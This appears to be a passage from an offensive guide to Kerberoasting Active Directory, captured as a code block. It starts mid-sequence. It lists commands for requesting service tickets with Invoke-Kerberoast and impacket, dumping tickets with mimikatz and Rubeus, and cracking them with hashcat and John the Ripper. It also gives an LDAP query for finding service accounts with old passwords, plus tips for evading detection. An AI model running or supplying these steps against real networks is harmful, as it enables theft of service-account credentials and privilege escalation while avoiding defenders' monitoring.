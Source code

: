```bash
# Method 3: Using Invoke-Kerberoast (PowerShell)
# Download from PowerShellEmpire or PowerSploit
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat      # Hashcat format
Invoke-Kerberoast -OutputFormat John         # John the Ripper format

# Method 4: Using impacket-GetUserSPNs (from Linux)
impacket-GetUserSPNs domain.local/user:password -dc-ip 192.168.1.10 -request
impacket-GetUserSPNs domain.local/user:password -dc-ip 192.168.1.10 -request-user svcSQL

# Step 3: Extract tickets from memory
# Using mimikatz
mimikatz "kerberos::list /export"           # Export all Kerberos tickets

# Using Rubeus
.\Rubeus.exe dump                            # Dump all tickets from current session
.\Rubeus.exe dump /service:MSSQLSvc          # Dump specific service tickets

# Step 4: Crack service account passwords
# Using hashcat
hashcat -m 13100 tickets.txt rockyou.txt    # Kerberos 5 TGS-REP mode
hashcat -m 13100 tickets.txt --rules-file=best64.rule rockyou.txt

# Using john the ripper
john --wordlist=rockyou.txt tickets.txt     # Basic dictionary attack
john --rules --wordlist=rockyou.txt tickets.txt # With rules

# Advanced Kerberoasting techniques
# Targeted Kerberoasting (focus on high-value accounts)
# 1. Identify service accounts with high privileges
# 2. Check account password policies
# 3. Look for accounts with old passwords (LastPasswordSet)

# PowerShell to check password ages
([adsisearcher]"(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))").FindAll() | ForEach-Object {
    $user = $_.Properties
    $pwdLastSet = [datetime]::FromFileTime([long]$user.pwdlastset[0])
    Write-Host "User:" $user.samaccountname "Last Password Set:" $pwdLastSet
}

# Kerberoasting evasion techniques
# Request tickets gradually to avoid detection
# Use different user accounts for requests
# Randomize timing between requests

# Why Kerberoasting is highly effective:
# - Any domain user can perform the attack
# - Service accounts often have weak passwords
# - Attack is difficult to detect
# - Offline password cracking provides persistent access
# - Service accounts often have elevated privileges
```

